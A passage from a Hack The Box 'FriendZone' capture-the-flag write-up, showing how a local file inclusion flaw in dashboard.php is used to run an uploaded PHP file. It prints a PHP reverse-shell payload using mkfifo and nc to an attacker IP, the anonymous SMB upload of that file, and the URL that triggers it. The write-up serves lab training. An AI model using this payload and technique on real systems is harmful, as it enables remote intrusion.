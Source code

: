 ![](/images/hackthebox/friendzone/13.png)
<hr>
### LFI in dashboard.php, User Flag
#### As you can see it's complaining about missing parameters, by looking at the example : `image_id=a.jpg&pagename=timestamp` my first guess was that `dashboard.php` includes the `php` file provided in the `pagename` parameter. So if we give it `test` it will append `.php` to `test` then include that file. We can upload files to the `smb` share `Development` and we also know the full path : `/etc/Development`, so if it's really vulnerable to `LFI` we can get a reverse shell easily. I wrote a small `php` script to get a reverse shell :
```
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
#### Then I uploaded it to `Development` :
```
root@kali:~/Desktop/HTB/boxes/friendzone# smbclient //friendzone.htb/development -U ""
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> put rev.php 
putting file rev.php as \rev.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> 
```
#### And finally I tested my idea :
`https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/rev`
![](/images/hackthebox/friendzone/14.png)
#### It worked and now we have a reverse shell as `www-data` :